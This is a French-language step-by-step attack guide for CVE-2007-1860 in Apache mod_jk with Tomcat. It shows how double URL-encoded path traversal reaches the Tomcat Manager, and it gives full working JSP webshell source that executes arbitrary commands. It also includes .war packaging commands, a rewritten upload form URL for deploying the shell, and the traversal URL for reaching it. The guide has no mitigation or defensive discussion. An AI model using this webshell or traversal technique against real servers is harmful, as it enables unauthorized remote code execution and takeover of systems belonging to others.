

# CVE-2007-1860: mod\_jk

Sur les systèmes Unix/Linux Tomcat ne peut pas être sur le port 80 sauf si on est Root. Cependant pour qu’il soit accessible par la majorité des utilisateurs ils doit disponible sur le port 80 (ou 443 → Https ).

C’est une des raisons pour laquelle les devs utilise un Apache pour “proxy” les requêtes faites sur le port 80.

cette configuration peut être aussi utilisé pour :

* contenu static directement depuis Apache et limité la charge de Tomcat
* Load balance les requêtes entre 2 Tomcats ou plus.

### 1ere Étape : Accès au Manager <a href="#cve-2007-1860-mod_jk-1ereetape-accesaumanager" id="cve-2007-1860-mod_jk-1ereetape-accesaumanager"></a>

Le web Serveur Apache qui utilise mod\_jk et le serveur d’application Tomcat vont procéder a un décodage du chemin fournis par le client.

Pour accéder au Manager nous devrons procéder a un double encodage. C’est la même exploitation qu’une ‘Directory Travesal' afin d’avoir accès a des répertoire qui ne sont pas supposé l'être.

| **Valeur** | **Url encoding** | **Double URL encoding** |
| ---------- | ---------------- | ----------------------- |
| **.**      | %2e              | %252e                   |

Chemin généré : `webapp/%252e%252e/manager/html`

Cette Astuce marche aussi pour d’autres serveurs d’application comme Jboss et Glassphish.

### 2eme Étape : Création d’un Webshell <a href="#cve-2007-1860-mod_jk-2emeetape-creationdunwebshell" id="cve-2007-1860-mod_jk-2emeetape-creationdunwebshell"></a>

Pour écrire un Webshell nous pouvons utiliser JPS ou une Servlet.

```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

il faudra ensuite créer un .war après avoir mis notre jsp dans un répertoire vide.

```
cd notreRepo
jar -cvf ../notrewar.war *
```

### 3eme Étape : Déploiement du .war <a href="#cve-2007-1860-mod_jk-3emeetape-deploiementdu.war" id="cve-2007-1860-mod_jk-3emeetape-deploiementdu.war"></a>

Si nous essayons de déployer le war nous allons avons en retour une 404.

Le manage ne fais pas de double encode.

Ainsi les solutions qui s’offre a nous sont les suivante :

* Utiliser le DevTools pour modifier l’url a la main
* Modifier la requête avec un proxy

Exemple :

```
<form action="/examples/html/upload;jsessionid=570DCE2CEE80E5886C9BE24CAFA1CCAB?org.apache.catalina.filters.CSRF_NONCE=FF9D941BBB6EB4D7E30F84C5EAC5CC7E" method="post" enctype="multipart/form-data">
```

Deviendrai :

```
<form action="http://vulnerable/examples/jsp/%252e%252e/%252e%252e/manager/html/upload;jsessionid=570DCE2CEE80E5886C9BE24CAFA1CCAB?org.apache.catalina.filters.CSRF_NONCE=FF9D941BBB6EB4D7E30F84C5EAC5CC7E" method="post" enctype="multipart/form-data">
```

\=> il faudra remettre l’url complète et utiliser le tips de Directory Traversal avec le double encodage des points !

### 4eme Étape : Exploitation <a href="#cve-2007-1860-mod_jk-4emeetape-exploitation" id="cve-2007-1860-mod_jk-4emeetape-exploitation"></a>

Pour acceder au endpoint de la meme maniere, nous devons utiliser le Directory Traversal et le double encodage.

Ainsi, pour notre exemple nous aurons :

`http://vulnerable/examples/jsp/%252e%252e/NotreWebshell/`


